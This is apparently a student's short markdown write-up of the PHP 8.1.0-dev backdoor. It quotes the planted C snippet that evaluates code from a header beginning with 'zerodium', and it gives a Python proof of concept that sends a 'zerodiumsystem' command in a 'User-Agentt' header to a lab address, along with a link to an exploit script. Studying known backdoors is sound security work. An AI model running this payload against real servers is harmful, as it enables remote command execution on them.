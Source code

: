 # php 8.1.0-dev

* Remote Command Injection

** vuln code

see [commits](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d) in git hub.


```php
convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

More [Info](https://news-web.php.net/php.internals/113838)


** Poc in python

```python

>>> # Example In python3

>>> from requests import get as _get

>>> res = _get("http://10.10.32.23/index.php", headers={
    "User-Agentt":'zerodiumsystem("whoami")'
})

>>> print(res.text.split("<!DOCTYPE html>")[0])

```


[Download](/pocs/exploit-php-8.1.0-dev.py) python script.








* It just a home work for me.
